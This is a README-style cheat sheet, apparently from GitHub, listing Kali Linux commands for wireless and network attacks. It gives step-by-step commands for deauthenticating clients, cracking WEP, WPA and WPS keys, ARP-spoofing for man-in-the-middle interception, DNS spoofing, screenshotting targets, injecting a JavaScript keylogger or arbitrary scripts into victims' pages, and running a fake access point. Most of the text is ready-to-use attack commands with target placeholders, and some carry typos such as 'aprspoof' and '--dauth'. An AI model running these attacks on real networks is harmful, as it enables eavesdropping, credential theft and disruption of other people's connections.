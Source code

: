 # Useful Hacking and Penetration Testing Commands

Useful commands in Kali Linux for penetration testing and ethical hacking

## Basic Linux commands: Device information

View information about your own device. IP addresses, adapters connected, etc... 

```bash
ifconfig 
```
View information about wireless interfaces in your device

```bash
iwconfig
```
To change wireless adapter into monitor mode. Monitor mode allows us to sniff packets through the network

```bash
iwconfig wlan0 mode monitor
```
## Other commands
1. zip a file: `tar czvf <filename>`
2. unzip file: `tar xzvf <filename>`
3. network info: `netstat`
4. last user logged in the system: `last`
5. who is logged in: `who` or `w`: 
6. network downloader: `wget <url-link>`
7. change permission: `chmod`
8. send file to a remote computer: `scp /path/to/file username@remoteIP:~/path/to/file`
9. From remote server to local computer: `scp username@remoteIP:~/path/to/file /path/to/file` 



## Preconnection Attack: Airodump-ng

Discover wireless networks within range:
```bash
airodump-ng wlan0
```

To sniff packets in the selected network: 

```bash
airodump-ng --bssid _____ --channel _ --write _test_ wlan0 
```
bssid: mac address of target network
channel: channel of the network
write: if you want to store the packets in a file
wlan0: wireless adapter name

The test file will be available with the .cap file. 
View the .cap file in ```wireshark test.cap```

## Deauthentication Attack

Disconnect any client form any network

```bash
aireplay-ng --dauth <NumOfPackets> -a <NetworkMacaddress> -c <TargetClientMacAddress> -e <WifiNname> <iterface-wlan0>
```
## WEP Cracking

1. Capture a large number of packets with airodump-ng
```bash
airodump-ng --bssid _____ --channel _ --write _test_ wlan0 
```
2. Analyse the captured packets and crack the key with aircrack-ng
```bash
aircrack-ng .capfile
```
3. output: KEY IS FOUND
4. Remove the colons from the key and use it as password

## Fake Authentication Attack

```bash
aireplay-ng --fakeauth 0 -a <TargetMacAddress> -h <WirelessAdapterMacAddress> <interface>
```
**NOTE: Type "ifconfig" to view wireless adapter mac address (unspec ---> first 12 digits)**

This attack injects packets in the network.

## WPA/WPA2
If WPS is Enable:
1. Displays networks with WPS enabled
```bash 
wash --interface wlan0
```
2. 
```bash
aireplay-ng --fakeauth <30> -a <TargetMacAddress> --interface <wlan0>
```
3. Run Reaver in another terminal window
```bash
reaver --bssid <TargetMacAddress> --channel <TargetChannel> --interface <wlan0> -vvv --no-associate
```
**NOTE: if bug error, then download older version of reaver and run ./reaver _______ **

4. Results: WPS PIN and WPA PSK

If WPS is disable:
1. Capture Handshake between devices
```bash
airodump-ng --bssid <TargetMacAddress> --channel <Channel> --write <handshake> <wlan0>
```
- Wait for the handshake
- wait for a new client or disconnect a client with a fake auth attack. 
- WPA handshake stored in the file 

- Create a wordlist
```bash 
crunch [min][max][characters] -T[pattern] -o [FileName]
```
Example:
```bash
crunch 6 8 abc12 -o test.txt
```
2. Wordlist attack 
```bash
aircrack-ng <handshake.cap> -w <text.txt>
```

## Man In The Middle Attack (MITM)

1. Scan the network IP with `zenmap` 
Example: 192.168.1.1/24

2. To map IP addresses in the network and mac addresses `arp -a`
3. `arpspoof -i <interface> -t <clientIP> <gatewayIP>`
4. In another window. Tell the router I am the victim: `aprspoof -i <interface> -t <gatewayIP> <clientIP>`
5. In another window. Allow Linx be the router and forward packets: `echo 1 > /proc/sys/net/ipv4/ip_forward`

## Man in the Middle Framework (MITMf)

Download the tool `apt-get install mitmf`

```bash 
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface>
```
Use wireshark to sniff packets

## DNS Spoofing with MITMf
1. Start the web server: `service apache2 start` (var/www/html)
2. Configure the A records and add the domain you want to change into your IP address (*.___.com = <MyIPAddress>): 
`leafpad /etc/mitmf/mitmf.conf`
3. `mitmf --arp --spoof --gateway <routerIP> --target <targetIP> -i <interface> --dns`

## Capturing Screen of Target with MITMf
Takes screenshots of the target machine 
They are stored into ghe log directory `var/log/mitmf/
(--screenshotter)
```bash 
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface> --screen --interval <seconds>
```

## JS Keylogger with MITMf
Injects javascript key logger into a client's webpage
```bash
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface> --jskeylogger
```

## MITMf code injection
```bash
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface> --inject --js-payload <"javascriptcode">
```
```bash
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface> --inject --js-file </path/to/jsfile>
```

**NOTE: if working in real network:**
- Disconnect from virtual network --> Devices --> network --> uncheck (offline) 

## Creating Fake Access Point 
1. Download tool `apt-get intall manatoolkit`
2. `start-nat-simple.sh`
3. Edit the settings: `leafpad /etc/mana-toolkit/hostapd-mana.conf`
- Change interface = wlan0
- ssid = name of the fake network
4. Edit: `leafpad /usr/share/mana-toolkit/run-mana/start-nat/simple.sh`
- upstream = eth0
- phy = wlan0
5. start fake AP: `bash /usr/share/mana-toolkit/run-mana/start-nat-simple.sh`
6. Test it with phone or other machine, NOT host machine. 

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)